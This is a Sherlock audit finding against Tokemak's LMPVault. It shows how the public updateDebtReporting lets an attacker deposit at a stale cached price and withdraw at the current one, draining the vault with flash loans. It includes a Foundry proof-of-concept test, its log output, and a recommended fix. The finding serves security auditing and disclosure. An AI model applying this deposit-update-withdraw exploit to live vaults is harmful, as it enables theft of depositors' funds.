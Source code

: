 Perfect Dijon Leopard

high

# `LMPVault`'s cached `totalDebt` can be abused to drain `LMPVault`
## Summary

An attacker can abuse the cached/stale evaluation of the `totalDebt` to make an instant profit by updating the `totalDebt` in between deposit/mint and redeem/withdraw

## Vulnerability Detail

The following gist contains a proof of concept to demonstrate this issue: https://gist.github.com/lemonmon1984/e8692483ce581d76feba5398c9a004a0

It is a diff to the existing test file `test/vault/LMPVault-Withdraw.t.sol`.

The proof of concept shows how Alice can profit from the cached totalAsset in the LMPVault.

- condition 1: asset is deployed to a destination vault
- condition 2: the price of the underlying asset of the destination vault has appreciated
  - or manipulated/changed using other issues such as
    - issue 09: `MavEthOracle::getPriceInEth` can be manipulated by making swaps in the pool, due to incorrect LP token evaluation
    - issue 11: `BalancerLPComposableStableEthOracle::getPriceInEth` can be updated by joining the pool

1. Alice deposits 1 ether to the LMPVault (via `LMPVault::deposit`)
1. Alice update the totalAsset (via `LMPVault::updateDebtReporting`)
1. Alice withdraws all to Bob (via `LMPVault::withdraw`)

At the end, Bob got more than 1 ether, which is more than the initial deposit 1 ether.
```solidity
Logs:
  bob: 1156250000000000000
```

Note that these series of actions (deposit -> update -> withdraw) can be done within one transaction.
Therefore, an attacker can use flashloan to maximize the profit, therefore draining the LMPVault.

```solidity
    function test_deposit_update_withdraw_poc(
    ) public {
        uint256 amount = 10 ether;
        uint256 amountWithdraw = 1 ether;
        uint256 amount2 = 5 ether;
        uint256 amountWithdraw2 = 1 ether;
        uint256 rebalDivisor = 2;
        bool rebalanceAmount1 = true;

        vm.assume(amount > 100);
        vm.assume(amount < 100_000_000e18);
        vm.assume(amountWithdraw > 100);
        vm.assume(amount >= amountWithdraw);
        vm.assume(type(uint256).max / _lmpVault.MAX_FEE_BPS() >= amount);
        vm.assume(type(uint256).max / _lmpVault.MAX_FEE_BPS() >= amountWithdraw);
        vm.assume(amount <= type(uint256).max / 2 / _lmpVault.MAX_FEE_BPS());

        vm.assume(amount2 > 100);
        vm.assume(amount2 < 100_000_000e18);
        vm.assume(amountWithdraw2 > 100);
        vm.assume(amount2 >= amountWithdraw2);
        vm.assume(type(uint256).max / _lmpVault.MAX_FEE_BPS() >= amount2);
        vm.assume(type(uint256).max / _lmpVault.MAX_FEE_BPS() >= amountWithdraw2);
        vm.assume(amount2 <= type(uint256).max / 2 / _lmpVault.MAX_FEE_BPS());

        vm.assume(rebalDivisor < (rebalanceAmount1 ? amount : amount2) / 2);
        vm.assume(rebalDivisor > 1);

        address user1 = vm.addr(100);
        vm.label(user1, "user1");
        address user2 = vm.addr(200);
        vm.label(user2, "user2");

        _asset.mint(user1, amount);
        _asset.mint(user2, amount2);

        //////// setUp: deposit users - start
        vm.startPrank(user1);
        _asset.approve(address(_lmpVault), amount);
        _lmpVault.deposit(amount, user1);
        vm.stopPrank();
        vm.startPrank(user2);
        _asset.approve(address(_lmpVault), amount2);
        _lmpVault.deposit(amount2, user2);
        vm.stopPrank();
        //////// setUp: deposit users - end

        //////// setUp:rebalance - start
        // rebalanceIn to the destOne
        address solver = vm.addr(23_423_434);
        vm.label(solver, "solver");
        _accessController.grantRole(Roles.SOLVER_ROLE, solver);
        uint256 rebalanceOut = rebalanceAmount1 ? amount : amount2;
        // At time of writing LMPVault always returned true for verifyRebalance
        _underlyerOne.mint(solver, rebalanceOut);
        vm.startPrank(solver);
        _underlyerOne.approve(address(_lmpVault), rebalanceOut);
        _lmpVault.rebalance(
            address(_destVaultOne), // destinationIn
            address(_underlyerOne), // tokenIn
            rebalanceOut / 2,       // amountIn
            address(0), // destinationOut, none when sending out baseAsset
            address(_asset), // baseAsset, tokenOut
            rebalanceOut
        );
        vm.stopPrank();
        //////// setUp: rebalance - end

        //// original price of _underlyerOne was 2 ether
        // _mockRootPrice(address(_underlyerOne), 2 ether);
        // emit log_named_uint("price one", _rootPriceOracle.getPriceInEth(address(_underlyerOne)));

        //// Now, the _underlyerOne's price has appreciated to 2.5 ether
        _mockRootPrice(address(_underlyerOne), 25e17);


        //// setUp for alice
        address alice = address(0x00a11ce777a11ce777a11ce777a11ce777a11ce777);
        _asset.mint(alice, 10 ether);

        //// 1. alice deposits 1 ether
        vm.startPrank(alice);
        _asset.approve(address(_lmpVault), type(uint256).max);
        _lmpVault.deposit(1 ether, alice);

        //// 2. alice updateDebtReporting
        _lmpVault.updateDebtReporting(_destinations);


        //// 3. alice withdraws to bob
        address bob = address(0x00b0b77b0b77b0b77b0b77b0b77b0b77b0b77b0b77);
        uint256 max = _lmpVault.maxWithdraw(alice);
        _lmpVault.withdraw(max, bob, alice);
        vm.stopPrank();

        //// as the result, the withdrawn amount is more than depositted amount
        emit log_named_uint("bob", _asset.balanceOf(bob));
        assert(_asset.balanceOf(bob) > 1 ether);
    }
```


The conversion rate of LMPVault share and the baseAsset is calculated based on the `LMPVault::totalAssets()` and `LMPVault::totalSupply()`.

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L587-L599

The `LMPVault::totalAssets()` is the some of `totalIdle` and `totalDebt`, which are cached values.

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L304-L306

The `totalIdle` and the `totalDebt` are updated by `rebalance`, `flashRebalance` and `updateDebtReporting`. While the `rebalance` and `flashRebalance` are protected, the `updateDebtReporting` is a public function, which anybody can call.
Also, the `updateDebtReporting` is not enforced when users are interacting with the LMPVault, i.e. mint/deposit/withdraw/redeem.Therefore, the user can choose to call the `updateDebtReporting` before or after their interaction to update the price information of the LMPVault, in turn will change the share/baseAsset conversion rate.

In the scenario above, Alice is depositting using the stale price and withdrawing using the current price, she will choose to do so only when it is profittable.
She is making instant profit from the discrepency between cached price and the current price and since she knows the current price, she does not have any risk (other than getting front-runned by bots, but can be mitigated by using contracts).
She can maximize her gain by using flashloan since all interaction can be done in one transaction.
As the result, the LMPVault and innocent users will take the loss.

## Impact

An attacker can drain the LMPVault using the price difference in the stale price and the current price.

## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L587-L599
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L304-L306

## Tool used

Manual Review

## Recommendation

Consider enforcing `updateDebtReporting` when users interact with `LMPVault::mint/deposit/withdraw/redeem`

